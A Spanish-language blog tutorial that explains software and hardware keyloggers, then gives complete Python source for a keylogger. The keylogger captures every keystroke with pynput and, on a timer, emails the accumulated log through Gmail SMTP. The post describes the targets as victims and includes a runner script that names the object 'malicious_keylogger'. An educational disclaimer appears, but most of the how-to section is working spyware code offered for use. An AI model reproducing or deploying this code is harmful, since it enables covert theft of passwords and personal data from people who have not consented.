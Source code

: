```yaml
---
layout: single
title: "Keylogger: Que es y como crear un keylogger basico"
excerpt: "Un Keylogger es un pequeño programa diseñado para capturar todas las pulsaciones que son realizadas por un teclado, para guardarlas en un registro que puede verse luego en un ordenador local, o puede ser enviado con rapidez y seguridad a través de Internet a un equipo remoto."
date: 2022-06-30
classes: wide
header:
 teaser: /assets/images/keylogger/keylogger.png
 teaser_home_page: true
categories:
  - programacion
  - ciberseguridad
tags:
  - seguridad
  - spyware
  - colombia
  - python
  - malware
---
```


Un Keylogger es un pequeño programa diseñado para capturar todas las pulsaciones que son realizadas por un teclado, para guardarlas en un registro que puede verse luego en un ordenador local, o puede ser enviado con rapidez y seguridad a través de Internet a un equipo remoto. Sin embargo los keyloggers no siempre se basan en _software_, sino que tambien pueden estar basados en _hardware_, mas adelanto explico cada uno, pero en este post nos enfocaremos en el keylogger basado en software ya que capturaremos la escritura de teclas de la victima.

A pesar de ser usado mayormente para actividades ilicitas, los keyloggers tambien tienen un uso positivo en las empresas, ayudando en el control parental o el analisis interno de las mismas. En definitiva los keyloggers son tecnologias que nos permiten realizar un seguimiento y registrar cada tecla o pulsacion  tacil que se realiza en algun dispositivo electronico.

# Tipos de keylogger
Existen 2 tipos los cuales seran resumidos:

## Keylogger basado en software 
Este keylogger se trata de un programa ejecutable, que actúa como espía o virus, escrito en Python y es instalado en cualquier dispositivo electrónico con teclado para rastrear la escritura realizada con este. Normalmente, se instala sin consentimiento del usuario y realiza el registro de las pulsaciones del teclado e inclusive realiza capturas de pantalla, esto con el fin de obtener datos de acceso como por ejemplo los números de cuentas y sus contraseñas.

Posterior a esto, los datos capturados son guardados en un archivo que se le suele llamar `log.txt` y luego es enviado al atacante via correo electronico o talvez el archivo solo es guardado en el equipo local o enviado a un equipo remoto, siendo estas las tipologias de _keylogger_ mas comunes.

## Keylogger basado en hardware
Este keylogger de tipo _hardware_ suele implementarse a travez de firmware a nivel de BIOS o, alternativamente atravez de un dispositivo microelectronico conectado en linea entre en teclado de computadora y una computadora.

# Como se crea un keylogger basico?
El proposito de este post es con fines educativos, no me responsabilizo del uso que hagan con el. Con esta entrada quiero ensenar **como crear un keylogger con el lenguaje python**, este keylogger va guardar cada pulsacion de tecla y va almacenar esta informacion en un archivo de texto, Despues de x pulsaciones, el keylogger enviara un correo a una direccion especifica con el archivo adjunto.

Para que este keylogger funcione debemos hacer uso de algunas librerias o modulos de python las cuales son las siguientes: 

- smtplib: Este modulo o libreria define un objeto de sesion de cliente SMTP que se puede usar para enviar correos a cualquier maquina de internet con un demonio de escucha SMTP.
- re: Este modulo nos proporciona operaciones de conicidencia de expresiones regulares.
- subprocess: Este modulo permite invocar procesos desde python y comunicarse con ellos, es decir enviar datos a la entrada `stdin` y recibir la informacion de salida `stdout`.
- pynput: Esta biblioteca nos permite controlar y monitorear/escuchar los dispositivos de entrada como el teclado y el mouse.
- threading: Este modulo construye interfaces de hilado de alto nivel sobre el modulo de mas bajo nivel.

Ya sabiendo esto, pasamos a escribir el codigo donde usaremos tambien programacion orientada a objetos y despues sera explicar por partes el codigo.

```python
#!/usr/bin/env python
import smtplib
import threading
from pynput import keyboard

#create keylogger class
class KeyLogger:

  #definimos init variables 
  def __init__ (self, time_interval, email, password):
    self.interval = time_interval
    self.log = "[!] Keylogger has started..."
    self.email = email
    self.password = password

  # creamos el archivo log
  def append_to_log(self, string):
    self.log = self.log + string

  # creamos el keylogger
  def on_press(self, key):
    try:
      current_key = str(key.char)
    except AttributeError:
      if key == key.space:
        current_key = " "
      elif key == key.esc:
        print("[!] Exiting program...")
        return False
      else:
        current_key = " " + str(key) + " "
    
    self.append_to_log(current_key)

  # creamos la estructura trasera del mail
  def send_mail(self, email, password, message):
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

  # creamos el reporte y el envio del mail
  def report_and_sendmail(self):
    send_off = self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.timer(self.interval, self.report_and_sendmail)
    timer.start()

  # start keylogger and send off mail
  def start(self):
    keyboard_listener = keyboard.Listener(on_press = self.on_press)
    with keyboard_listener:
      self.report_and_sendmail()
      keyboard_listener.join()
```
Como creamos una clase, pasamos a crear el archivo python que va ejecutar el keylogger

```python
import keylogger

#inicializamos
malicious_keylogger = keylogger.KeyLogger(10, 'test@gmail.com', '123456789')

#ejecutamos
malicious_keylogger.start()
```

Ahora pasamos a probar el keylogger
